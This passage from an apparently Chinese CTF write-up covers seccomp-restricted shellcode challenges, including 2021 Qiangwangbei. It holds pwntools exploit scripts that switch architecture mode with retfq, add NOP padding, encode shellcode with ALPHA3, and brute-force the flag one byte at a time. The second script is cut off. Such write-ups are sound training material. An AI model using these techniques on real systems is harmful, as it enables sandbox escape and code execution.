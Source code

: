 ```plain
shellcode += shellcode_read
shellcode += append

# mode_64 -> mode_32
shellcode += shellcode_retfq
shellcode += append

shellcode = asm(shellcode,arch = 'amd64',os = 'linux')
print hex(len(shellcode))

#gdb.attach(p,"b *0x40027f\nb*0x4002eb\nc\nc\nsi\n")
p.sendline(shellcode)
pause()

p.sendline(shellcode_x86 + 0x29*'\x90' + shellcode_flag)
p.interactive()
```

### 2021-强网杯 - 初赛-shellcode

#### 只有 R 无 OW->上述两种方式的总结

这里就不多赘述了，只讲一下思路与 exp

seccomp-tools

[![](assets/1701612140-d26a21f6ea6f92f0497610a2be2df8d7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230815203742-870b8ae0-3b68-1.png)

发现只有 read,mmap，但是又 fstat，所以可以解决没有 open 的情况，没有 write 可以利用 loop 循环，用 cmp 卡住程序，从而进行单字节爆破得到 flag，所以这是上面两个题目的总结

exp:

```plain
#!/usr/bin/env python
import os
import time
from pwn import *

context.arch = 'amd64'
context.os = 'linux'
# context.log_level = 'debug'

def toPrintable(raw):
    with open("/tmp/raw","wb") as f:
        f.write(asm(raw,arch='amd64'))
    result = os.popen("python ~/pwntools/alpha3/ALPHA3.py x64 ascii mixedcase rbx --input=/tmp/raw").read()
    print("[*] Shellcode %s"%result)
    return result

```